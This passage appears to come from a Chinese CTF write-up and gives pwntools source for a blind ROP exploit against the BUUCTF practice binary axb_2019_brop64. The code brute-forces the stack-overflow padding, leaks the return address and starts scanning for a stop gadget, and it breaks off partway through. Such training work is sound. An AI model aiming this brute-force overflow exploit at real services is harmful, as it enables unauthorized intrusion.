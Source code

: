 
## 0x08 源码
```python
# coding:utf-8
from pwn import *
from LibcSearcher import *

REMOTE = True
REMOTE_DOMAIN = 'node4.buuoj.cn'
REMOTE_PORT = 12345     # 根据实际靶机分配的端口
PROCESS = './axb_2019_brop64'

def get_sh():
    if REMOTE:
        return remote(REMOTE_DOMAIN, REMOTE_PORT)
    else:
        return process(PROCESS)

# 爆破栈溢出点
def Force_find_padding():
    padding_length=0
    while True:
        try:
            padding_length = padding_length + 1
            sh = get_sh()
            sh.recvuntil(b"Please tell me:")
            sh.send(b'A' * padding_length)
            text = sh.recvall()
            if b"Goodbye!" not in text:
                raise "Programe not exit normally!"
            sh.close()
        except:
            log.success("The true padding length is " + str(padding_length - 1))
            sh.close()
            return padding_length - 1
    log.error("We don't find true padding length!")

padding_length = 216    # 偏移长度216，第217位是return_addr
if padding_length is null:
    padding_length = Force_find_padding()

# 因为本题没有canary，所以不需要爆破Canary,并且本题栈溢出可以直接泄漏栈的内容，这里先泄漏原来的返回地址，以便后面缩小范围。
old_return_addr = 0x400834
sh = get_sh()
if old_return_addr is null: 
    sh.recvuntil(b"Please tell me:")
    sh.send(b'A' * padding_length)
    sh.recvuntil(b'A' * padding_length)
    old_return_addr = sh.recvuntil(b'Goodbye!')[:-8].ljust(8, b'\0')
    old_return_addr = u64(old_return_addr)  # 0x400834
    log.info('The old return address is '+ hex(old_return_addr))
sh.close()

# 寻找 stop gadget
def Find_stop_gadget(old_return_addr, padding_length):
    maybe_low_byte = 0x0700     # 从0x0开始，出来0x6e0,0x6e2等等好几个，但测了几个都不能用，所以直接从0x700开始 
    while True:
        try:
            sh = get_sh()
            sh.recvuntil(b"Please tell me:")
            sh.send(b'A' * padding_length + p16(maybe_low_byte))
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
```